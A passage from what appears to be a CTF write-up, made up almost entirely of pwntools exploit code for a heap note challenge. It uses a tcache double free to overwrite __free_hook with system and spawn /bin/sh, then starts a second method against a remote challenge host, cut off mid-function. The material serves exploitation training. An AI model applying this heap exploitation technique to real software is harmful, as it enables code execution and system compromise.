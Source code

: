 ```python
r.recv(0x420 - 0x8)

## Use Double Free to Write system_addr to __free_hook
for i in range(1, 0xa):
    add_note(i, 0x10)

for i in range(1, 0x8):
    del_note(i)

del_note(8)
del_note(9)
del_note(8)

### Clean tcache
for i in range(1, 0x8):
    add_note(i, 0x10)
add_note(8, 0x18)
write_note(8, p64(free_hook))
bin_sh = u64(b'/bin/sh\x00')
add_note(9, 0x10)
write_note(9, p64(bin_sh))
add_note(10, 0x10)
add_note(11, 0x10)
write_note(11, p64(system_addr))
del_note(9)

r.interactive()
```
:::

:::spoiler Method 2
```python
from pwn import *

r = process('./chal')
r = remote('10.113.184.121', 10058)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.arch = 'amd64'

def add_note(idx, len):
    r.recvuntil(b'choice: ')
    r.send(b'1')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())
    r.recvuntil(b'Length: ')
    r.send(str(len).encode())

def read_note(idx):
    r.recvuntil(b'choice: ')
    r.send(b'2')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())
    r.recvline()

def write_note(idx, content):
    r.recvuntil(b'choice: ')
    r.send(b'3')
    r.recvuntil(b'Index: ')
    r.send(str(idx).encode())
    r.recvuntil(b'Content: ')
    r.send(content)

def del_note(idx):
    r.recvuntil(b'choice: ')
```